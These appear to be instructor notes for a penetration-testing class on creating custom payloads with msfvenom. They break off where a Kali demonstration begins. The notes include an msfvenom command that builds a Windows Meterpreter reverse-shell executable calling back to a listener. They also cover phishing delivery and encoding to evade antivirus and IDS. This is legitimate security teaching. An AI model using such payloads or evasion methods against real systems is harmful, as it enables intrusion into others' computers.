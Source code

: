 Think back to the last class. While making a Meterpreter session, we used the following custom payload: 

  - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe > hack.exe`

Today, we'll learn how to create payloads like this one using Metasploit.

- Remind students that a payload is the shell code that runs when an exploit successfully compromises a system.

- Attackers typically build custom payloads that they can use in phishing emails or add to their websites. When unsuspecting users click the link for the malicious payload, their computers are infected.

The exploitation of services is not as common as it was a decade ago. This is due to the use of defense countermeasures like endpoint detection and response,  AV solutions, and IPS/IDS implementation. 

- While patching mitigates vulnerable services, attackers will deliver custom payloads through social engineering if they cannot exploit services.

- Since C2 servers have dynamic IP addresses, attackers often have to create their own customized payloads that call back to their C2 server using SYN packets.

- Custom payloads allow customization of various payload options such as:

  - Architecture
  - Shell type
     - Reverse
     - Bind
     - Meterpreter
     - Other proprietary C2 shell


Explain that in order to create these payloads, attackers  use a tool called `msfvenom`. 

-  `msfvenom` is a Metasploit framework tool used to generate and encode payloads. 


- `msfvenom` is part of the Metasploit framework, but Metasploit does not need to be running in order to use `msfvenom`. 


While it's relatively easy to create custom payloads, the real challenge is creating a payload that bypasses network detection by IDS and antivirus (AV) solutions.

Explain that **encoding** is a method used to evade detection tools.

   - It changes the signature of an exploit or payload, creating a new signature that has no written rule.

   - This change in signature allows payloads to bypass detection from AV and IDS tools that detect known malicious signatures.

Explain that we'll now walk through the basics of `msfvenom`'s help menu and use some basic command options available for use with encoders, payloads, and formats.

####  Custom Payload Creation with msfvenom Demonstration

Log into the  Kali Linux (Attacker) VM.
